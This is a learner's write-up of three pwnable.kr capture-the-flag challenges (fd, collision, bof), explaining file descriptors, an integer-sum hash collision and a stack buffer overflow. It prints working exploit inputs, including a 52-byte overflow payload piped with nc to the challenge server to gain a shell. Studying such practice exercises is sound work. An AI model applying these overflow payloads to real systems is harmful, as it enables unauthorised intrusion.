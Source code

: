 Toddler's Bottle
================

Mommy, I wanna be a hacker!

Codes: https://gist.github.com/siddharthasahu/f46a965d7ce34a4b24cc

fd
--

A simple one.

* atoi(const char *str): Converts the char stream of digits to int 
* read(int fdes, void *buf, size_t nbyte): Reads `nbytes` bytes into `buf` variable from `fdes` file descriptor. [http://codewiki.wikidot.com/c:system-calls:read]
* Hex to decimal conversions in bash: http://stackoverflow.com/questions/13280131/hexadecimal-to-decimal-in-shell-script

Rest is simply setting the file descriptor to stdin and passing the matching string:  
`echo "LETMEWIN" | ./fd 4660`  
or even better: `echo "LETMEWIN" | ./fd $(printf "%d" 0x1234)`

Pwned!

collision
---------

This one led to a revision of signed vs unsigned integers, data ranges in C and interplay between binary, ASCII and hex.

* New bash commands: `od`, `xxd`, data conversion in `bc`
* Need to take care of byte ordering
* http://stackoverflow.com/questions/9487037/passing-binary-data-as-arguments-in-bash

The trick is to pass in 20 bytes which is picked in the form of 5 ints and added to get the result.

One of the possible answers: `$'\xE8\x05\xD9\x1D\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01'`

bof
---

Finally get to learn buffer overflows!

* Needs gdb debugging skills
* Function call conventions in x86: http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html

Objective is to replace the value of `key`. So basically one needs to calculate the position of the `key` variable in the stack and send an appropriate input so that it replaces `key` with desired data (0xcafebabe in this case).

GDB commands
$ gdb ./bof
(gdb) break func
(gdb) r
(gdb) disassemble

* From `lea    -0x2c(%ebp),%eax` in func+29, we come to know that the position of the `overflowme` variable in the stack, where our input starts getting stored is 0x2c = 44.
* From function calling conventions, stack order is: arguments -> eip -> ebp -> local variables. So position of `key` is 44 + 4 + 4 = 52 bytes from `overflowme` in the stack.
* From above and keeping in mind little endian systems, input can be: "a"*52+$'\xbe'$'\xba'$'\xfe'$'\xca'
* Trying: `echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"$'\xbe'$'\xba'$'\xfe'$'\xca' | nc pwnable.kr 9000`. Does not work.
* I did not solve this, but apparently the above format is closing the shell before commands can be sent.
* Repeat a character in bash: http://stackoverflow.com/questions/5349718/how-can-i-repeat-a-character-in-bash
* Final solution: `(echo $(printf "=%.0s" {1..52};printf "\xbe\xba\xfe\xca");cat) | nc pwnable.kr 9000`

TODO: Investigate why subshell with cat is needed here.

NOTE: If you try to insert a random big input, it gives a "stack smashing detected" error. Interesting to know, but not relevant to this problem, because the hack is in the function itself.
